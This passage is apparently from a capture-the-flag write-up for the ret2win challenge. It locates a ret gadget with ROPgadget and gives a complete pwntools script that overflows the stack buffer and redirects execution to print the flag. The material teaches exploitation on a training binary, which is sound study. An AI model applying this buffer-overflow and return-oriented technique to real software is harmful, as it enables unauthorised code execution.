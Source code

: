 But first, let's look for a ROP gadget. We need a gadget because of a MOVAPS issue in Ubuntu 18.04, where this binary was compiled from. To achieve this we can use the `ROPgadget` tool. Sifting through the output, we notice this:

```
$ ROPgadget --binary ret2win

<SNIP>

0x000000000040053e : ret

<SNIP>
```

Finally, to create the exploit we will need to send:

- 40 bytes of filler in order to break the stack
- the address of the aforementioned ROP gadget
- the address of the `ret2win` function, which we want to call as to get the flag

For that we can use the pwntools library.

```python
from pwn import *

# Initialize the ELF
elf = ELF('ret2win')

# Start a new process using the binary file
process = process(elf.path)

# Create the payload with the 40 bytes of filler
payload = b'A' * 40

# Add the address of the ROP gadget to the payload
payload += p64(0x000000000040053e)

# We can use the pwntools elf utilities to get the address of the ret2win function, which we will then add to the payload
payload += p64(elf.sym.ret2win)

# Send the payload to the process
process.send(payload)

# Receive the output and decode it from bytes to string
output = process.recvall()
output = output.decode('utf-8')

# Find the index of the flag in the output
index = output.find('ROPE{')

# Print the flag
flag = output[index:]
print(flag)
```
